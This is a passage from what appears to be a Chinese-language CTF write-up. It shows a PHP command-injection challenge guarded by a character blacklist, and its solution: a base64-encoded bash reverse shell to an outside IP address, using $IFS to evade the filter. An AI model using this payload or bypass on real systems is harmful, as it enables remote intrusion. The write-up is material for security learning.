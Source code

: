 
进入第三层

```
 <?php
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    $pattern = '/[\{\}\[\]\(\)&<>`\s\\\\]/';
    if(preg_match($pattern,$cmd)){
        die("Invalid Input!");
    }
    shell_exec($cmd);
}
else{
    show_source(__FILE__);
}
//flag is in /flag 
```

![](./images/image-5.png)

由于这里shell\_exec是无回显的，我使用的方式是bash反弹shell到服务器上

- [HYH的反弹Shell生成器 (hyhforever.top)](https://www.hyhforever.top/revshell/)

```
cmd=echo$IFS$1"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ5LjIzNS4xNjQuMTA0LzEwMCAwPiYx"|base64$IFS$1-d|bash
```

